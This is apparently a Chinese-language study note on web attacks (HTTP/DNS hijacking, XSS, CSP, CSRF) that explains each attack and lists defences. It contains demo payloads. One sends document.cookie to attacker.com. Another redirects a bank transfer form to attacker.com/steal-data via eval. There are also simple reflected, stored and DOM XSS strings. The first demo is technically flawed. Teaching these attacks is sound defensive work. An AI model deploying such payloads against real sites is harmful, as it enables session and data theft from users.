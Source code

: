
# HTTP 劫持、DNS 劫持与 XSS

- http 劫持是指攻击者在客户端和服务器之间同时建立了连接通道，通过某种方式，让客户端请求发送到自己的服务器，然后自己就拥有了控制响应内容的能力，从而给客户端展示错误的信息，比如在页面中加入一些广告内容。

- DNS 劫持是指攻击者劫持了 DNS 服务器，获得了修改 DNS 解析记录的权限，从而导致客户端请求的域名被解析到了错误的 IP 地址，攻击者通过这种方式窃取用户资料或破坏原有正常服务。

- XSS 是指跨站脚本攻击。攻击者利用站点的漏洞，在表单提交时，在表单内容中加入一些恶意脚本，当其他正常用户浏览页面，而页面中刚好出现攻击者的恶意脚本时，脚本被执行，从而使得页面遭到破坏，或者用户信息被窃取。
  要防范 XSS 攻击，需要在服务器端过滤脚本代码，将一些危险的元素和属性去掉或对元素进行HTML实体编码。

# 什么是 CSP？
CSP（Content-Security-Policy）指的是内容安全策略，它的本质是建立一个白名单，告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦
截由浏览器自己来实现。

通常有两种方式来开启 CSP
- 一种是设置 HTTP 首部中的Content-Security-Policy
  
- 一种是设置 meta 标签的方式
   <meta http-equiv="Content-Security-Policy">
   
CSP 也是解决 XSS 攻击的一个强力手段



# XSS：Cross-site Scripting

- XSS 是指跨站脚本攻击。攻击者利用站点的漏洞，在表单提交时，在表单内容中加入一些恶意脚本，当其他正常用户浏览页面，而页面中刚好出现攻击者的恶意脚本时，脚本被执行，从而使得页面遭到破坏，或者用户信息被窃取。

- 攻击者对客户端网页注入的恶意脚本一般包括 JavaScript，有时也会包含 HTML 和 Flash。有很多种方式进行 XSS 攻击，但它们的共同点为：将一些隐私数据像 cookie、session 发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作。


- 要防范 XSS 攻击，需要在服务器端过滤脚本代码，将一些危险的元素和属性去掉或对元素进行HTML实体编码。

```javascript
<!-- index.html -->
<!DOCTYPE html>
<html>
<head>
  <title>XSS Attack Demo</title>
</head>
<body>
  <h1>XSS Attack Demo</h1>
  <div id="content"></div>
  <script src="payload.js"></script>
</body>
</html>


// payload.js
const maliciousScript = `
  const xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://attacker.com/steal-cookie?cookie=' + document.cookie, true);
  xhr.send();
`;

document.getElementById('content').innerHTML = maliciousScript;

```
在上述示例中，恶意脚本payload.js被注入到页面中。该脚本通过XMLHttpRequest发送GET请求，将页面中的Cookie信息发送给攻击者控制的服务器。


## XSS攻击可以分为3类：反射型（非持久型）、存储型（持久型）、基于DOM。


- 1、反射型 （Reflected XSS ） 发出请求时，XSS代码出现在url中，作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS代码。这个过程像一次反射，所以叫反射型XSS。

假设有一个搜索页面，用户的搜索词通过URL参数传递，如 https://example.com/search?q=keyword。
如果服务器将用户输入的搜索词直接反射在页面上，攻击者可以通过构造恶意的URL来实施攻击。例如：

```php
https://example.com/search?q=<script>alert('XSS')</script>
```

如果这个URL被访问，服务器将 <script>alert('XSS')</script> 直接嵌入到HTML中，从而弹出一个警告框。



- 2、存储型 Stored XSS和 Reflected XSS的差别就在于，具有攻击性的脚本被保存到了服务器端（数据库，内存，文件系统）并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

在一个论坛应用中，用户可以提交评论。如果应用没有正确地清理用户提交的数据，攻击者可以提交包含恶意脚本的评论。例如，攻击者可能会提交以下评论：

```javascript
<script>alert('XSS')</script>
```

该脚本存储在服务器上，并且每当任何用户浏览包含该评论的页面时，脚本都会被执行，导致XSS攻击。


- 3、DOM型 （DOM-based or local XSS） 即基于DOM或本地的 XSS 攻击：其实是一种特殊类型的反射型 XSS，它是基于 DOM文档对象模型的一种漏洞。可以通过 DOM来动态修改页面内容，从客户端获取 DOM中的数据并在本地执行。基于这个特性，就可以利用 JS脚本来实现 XSS漏洞的利用。

考虑一个网页，其中包含以下JavaScript代码：

```javascript
document.getElementById('output').innerHTML = location.hash.substring(1);
```

如果一个用户访问如下URL：

```javascript
https://example.com/#<img src=x onerror=alert('XSS')>
```

此代码片段会将 URL 的哈希部分（<img src=x onerror=alert('XSS')>）直接设置为页面元素的 innerHTML，从而执行恶意代码。



### 防范手段：
1. 输入过滤
2. 输出过滤
3. 加 httponly 请求头  锁死cookie (浏览器将禁止页面的Javascript 访问带有 HttpOnly 属性的Cookie)

# CSRF：Cross-site request forgery 

跨站请求伪造

```javascript
1.  用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
2.  在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
3.  用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
4.  网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
5.  浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。 
```

```javascript
<!-- index.html -->
<!DOCTYPE html>
<html>
<head>
  <title>CSRF Attack Demo</title>
</head>
<body>
  <h1>CSRF Attack Demo</h1>
  <form id="transfer-form" action="http://bank.com/transfer" method="POST">
    <input type="hidden" name="amount" value="10000">
    <input type="submit" value="Transfer">
  </form>
  <script src="payload.js"></script>
</body>
</html>

// payload.js
const maliciousScript = `
  const form = document.getElementById('transfer-form');
  form.action = 'http://attacker.com/steal-data';
  form.submit();`;

eval(maliciousScript);
```
在上述示例中，恶意脚本payload.js被执行。该脚本修改了表单transfer-form的目标地址为攻击者控制的服务器，并提交表单。当用户点击"Transfer"按钮时，实际上会向攻击者服务器发送用户的敏感数据。


防御 CSRF 攻击有多种手段：

- 不使用 `cookie`
- 为表单添加校验的 `token` 校验
- cookie中使用 `sameSite`字段
- 服务器检查 `referer` 字段 (记录了该 HTTP 请求的来源地)



